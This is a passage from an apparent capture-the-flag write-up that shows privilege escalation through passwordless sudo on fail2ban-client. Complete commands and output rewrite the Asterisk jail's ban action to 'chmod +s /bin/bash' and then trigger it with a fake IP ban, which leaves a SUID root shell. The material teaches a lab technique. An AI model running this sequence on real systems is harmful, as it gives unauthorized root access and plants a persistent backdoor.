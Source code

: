**Explanation:**

This is a critical misconfiguration — fail2ban-client can run arbitrary actions as root, depending on how we manipulate it.

- We have passwordless sudo access to the `fail2ban-client` utility.
- `fail2ban-client` allows configuring actions dynamically — including running system commands!

### 💥 6.2 Abusing Fail2Ban to Set the SUID Bit on Bash
**Goal:** Make /bin/bash a SUID binary, allowing us to spawn a root shell.

We exploit `fail2ban-client` to modify the iptables action and **set the SUID bit** on `/bin/bash`, allowing us to spawn a privileged shell.

**Commands:**

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
**Explanation:**

- We modify the actionban command for the Asterisk fail2ban jail.
- Instead of blocking IPs, it now runs chmod +s /bin/bash, setting the SUID bit on the Bash binary.

**Output**
```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
<es-allports-ASTERISK actionban 'chmod +s /bin/bash'
chmod +s /bin/bash
asterisk@Billing:/home/magnus$
```
✅ Successfully injected our malicious action!

### 🎯 6.2 Triggering the Modified Action
Now we need to trigger the action by simulating a ban on an arbitrary IP address:

**Command**

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
```
**Explanation:**
- We modify the action to **run `chmod +s /bin/bash`**.
- Trigger a "ban" by setting a fake IP.
- The SUID bit will allow **anyone** running `/bin/bash` to execute with **root privileges**.

**Output**

```bash
sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
<fail2ban-client set asterisk-iptables banip 1.2.3.4
1
asterisk@Billing:/home/magnus$
```

✅ The action was successfully triggered.
